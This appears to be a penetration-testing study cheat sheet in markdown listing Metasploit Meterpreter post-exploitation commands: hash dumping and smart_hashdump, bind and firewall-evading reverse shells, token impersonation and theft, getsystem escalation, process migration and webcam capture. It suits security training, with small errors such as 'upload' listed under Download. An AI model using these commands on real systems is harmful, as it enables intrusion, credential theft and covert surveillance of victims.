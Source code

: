 #### Meterpreter useful commands
- help
- Search
- the backslash is an escape character
	- use double backslashes when giving the window patch
	- Use a backslash in front of a space in the path.
	-`search -d c:\\documents\ and\ settings \\administrator\\desktop\\ -f *.pdf 
- upload
	`upload <file> <destination>`
- Download
	`upload <file> <pathtosave>`
	- To recursively download an entire directory, use the download -r download
- Execute : run  a command on the victim
- Shell : Drop to the victim's command prompt
- Webcam_List : list webcams
- Webcam_snap : tell a webcam to take a picture
- ps : use to find process ID (PID) or parent process ID (PPID)
- migrate : Use to migrate meterpreter to another running process on the victim. You will need to target PID
- hashdump : The output of each line is in the following format : [Username: SID: LM hash:NTLM hash::: ]
- run credcollect : run a scrpt that dumps hashes as well as collects system tokens
- getui: Display the user that the meterpreter server is running as on the target
- GetSystem: Attempt to elevate your current privileges to System (higher than admin)
- sysInfo : Get Information about the exploited target

#### METEPRETER BIND SHELL
 - Choose "bind" when you can connect directly to the victim's back door
	 - You must have a route to the target (same network is best)
	 - Target's firewall is dropped or permitting the RPORT
	 - Example:
		 - set payload windows/meterpreter/bind_tcp

#### METERPRETER REVERSE SHELL
- Choose 'reverse' when you need the victim to make a connection back to you
- Meterpreter will setup your handler (listener) as part of the payload options
	- You can set the handler to be on different computer (LHOST) from your attacker machine
	- You can set the LPORT to be different from the default 4444
	- make sure the victim's reverse connection will not be blocked by your or their firewall 
		- Set LPORT to 80 or 443
		- Make sure the LHOST is not already using the LPORT
	- Example (run on handler)
		- netstat -na
		- set lport 80
	- Some payloads include reverse_tcp_allports
		- Tries to connect back to the handler on all possible ports (1-65535, slowly)
		- Good when the victim is behind a firewall that both;
			- Disallows inbound connections
			- AND limits outbound connections to (unknown) specific ports as well

#### POST MODULES
- Some meterpreter commands might not execute well
- Look for POST modules you can also run to do the desired task
- Background your meterpreter session first before you search POST modules
- After choosing a POST module, set the meterpreter session ID in its options


#### POST 
- Meterpreter command hashdump isn’t working
- Instead use post/windows/gather/smart_hashdump module
- In this example meterpreter session is 5; smart_hashdump module is 13
```
background
sessions
search post hashdump
use 13
set session 5
run
```

#### METERPRETER IMPERSONATION
- Meterpreter allows you to pretend you are some other logged on user or running
- process
- You can then use that token in the context of that user or process
- You will need SYSTEM privilege to do this
- To impersonate a user:
	- getsystem
	- load incognito
	- list_tokens -u
	-` impersonate_token <logged on user you want to impersonate>

#### IMPERSONATE A USER
- Run these meterpreter commands to impersonate a user:
- getsystem
- load incognito
- list_tokens -u
- `impersonate_token <logged on user you want to impersonate>

#### STEAL A PROCESS TOKEN
- You can steal a token from a process launched by a user, SYSTEM, etc.
	- You will need to first identify a process you can stealfrom
	- Pay attention to the limits of the process/user
- Run these meterpreter commands to steal a token from a running process
	- getsystem
	- ps
	- `steal_token <PID of process you want to steal from>
	- Make sure you choose the PID, not the PPID (parent process ID)
	- Getprivs
	- Make sure the token gives you the privileges necessary for what you want to do

#### METERPETER PROCESS MIGRATION
- Meterpreter runs in the exploited process
- You can move meterpreter to a different (more stable) running process
- Explorer.exe is an excellent choice since it will always be running so long as there is a logged on user
- You can also try migrating to system processes such as winlogon or services
- You will need to identify the process ID (PID) or its name
- In meterpreter, run the ps command to find a process, its name, and the PID
- Then run either command:
- `migrate -N <process name>
- `migrate <process ID>

#### METERPRETER MIGRATION EXAMPLES
```
meter[reter > migrate -N explorer.exe

ps | grep notepad

```

